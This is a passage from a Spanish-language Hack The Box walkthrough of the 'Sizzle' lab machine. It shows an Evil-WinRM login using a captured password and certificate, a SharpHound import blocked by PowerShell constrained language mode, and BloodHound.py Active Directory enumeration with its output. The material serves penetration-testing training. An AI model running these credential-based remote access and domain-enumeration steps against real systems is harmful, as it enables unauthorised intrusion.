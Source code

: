 
### SHELL With Amanda

Ahora probaremos conectarnos con Evil-WinRM usando el certificado y la clave privada que generamos anteriormente.

```powershell
❯ evil-winrm -S -i 10.10.10.103 -u 'amanda' -p 'Ashare1972' -c certnew.cer -k privateKey.key
Evil-WinRM shell v2.4
Warning: SSL enabled
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\amanda\Documents>
```

Ya tenemos shell! Vamos a ver como podemos seguir avanzando. Voy a usar bloodhound para una enumeración mas exaustiva.

Nos descargaremos el script de powershell SharpHound.ps1 https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1  y lo subiremos a la máquina victima.

Una vez subido el archivo, lo podemos intentar importar para usarlo, pero recibimos el siguiente error.

```bash
*Evil-WinRM* PS C:\Users\amanda\Documents> Import-Module .\SharpHound.ps1
Importing *.ps1 files as modules is not allowed in ConstrainedLanguage mode.
At line:1 char:1
+ Import-Module .\SharpHound.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (:) [Import-Module], InvalidOperationException
    + FullyQualifiedErrorId : Modules_ImportPSFileNotAllowedInConstrainedLanguage,Microsoft.PowerShell.Commands.ImportModuleCommand
*Evil-WinRM* PS C:\Users\amanda\Documents> 
```

### BloodHound Enumeration

Por lo tanto haré uso del script BloodHound.py para extraer los datos.

```bash
❯ python3 bloodhound.py -c ALL -u 'amanda' -p 'Ashare1972' -d 'HTB.LOCAL' -ns 10.10.10.103
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (htb.local:88)] [Errno 113] No route to host
INFO: Connecting to LDAP server: sizzle.HTB.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: sizzle.HTB.LOCAL
INFO: Found 8 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: sizzle.HTB.LOCAL
INFO: Done in 00M 15S
```
